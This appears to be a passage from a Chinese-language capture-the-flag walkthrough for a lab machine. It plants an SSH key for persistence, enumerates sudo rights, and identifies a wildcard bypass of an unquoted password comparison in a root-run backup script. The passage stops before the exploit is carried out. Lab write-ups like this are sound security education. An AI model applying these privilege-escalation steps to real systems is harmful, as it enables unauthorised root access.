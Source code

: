 生成ssh密钥对，上传上去：

```bash
ssh-keygen -t rsa
```

```bash
echo "xxx.pub" > authorized_keys 
```

```bash
ssh adriana@10.160.107.159 -i adria
```

![image-20240323162555386](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641929.png)

### 切换至root

```bash
sudo -l
sudo: unable to resolve host adria: Temporary failure in name resolution
Matching Defaults entries for adriana on adria:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User adriana may run the following commands on adria:
    (ALL : ALL) NOPASSWD: /opt/backup
```

查看一下这个文件：

```bash
cat /opt/backup
```

```bash
#!/bin/bash

PASSWORD=$(/usr/bin/cat /root/pass)

read -ep "Password: " USER_PASS

if [[ $PASSWORD == $USER_PASS ]] ; then

  /usr/bin/echo "Authorized access"
  /usr/bin/sleep 1
  /usr/bin/zip -r -e -P "$PASSWORD" /opt/backup.zip /var/www/html
else
  /usr/bin/echo "Access denied"
  exit 1
fi
```

`$PASSWORD == $USER_PASS`标准格式应该是`"$PASSWORD" == "$USER_PASS"`，没加双引号，可以尝试使用通配符进行绕过，上传一个`pspy64`监控一下进程。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641930.png" alt="image-20240323163431983" style="zoom:50%;" />
